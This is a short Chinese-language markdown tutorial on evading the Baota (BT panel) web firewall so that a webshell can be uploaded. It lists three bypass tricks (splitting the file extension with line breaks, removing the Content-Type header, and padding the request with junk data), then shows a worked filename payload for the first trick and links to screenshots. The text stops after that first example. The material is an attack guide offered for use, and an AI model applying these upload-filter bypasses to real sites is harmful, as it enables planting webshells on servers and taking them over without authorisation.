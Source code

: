 # 如何草翻宝塔防火墙上传马子

![](https://s2.ax1x.com/2019/10/22/K33ta9.png)
全部曹飞


三个点：
1.后缀名回车分割
2.删除Content-Type头
3.垃圾数据填充

1.后缀名回车分割
```
xxx.php
"xxx.
p
h
p"
````

![](https://s2.ax1x.com/2019/10/22/K33Haj.png)


![](https://s2.ax1x.com/2019/10/22/K38SLF.png)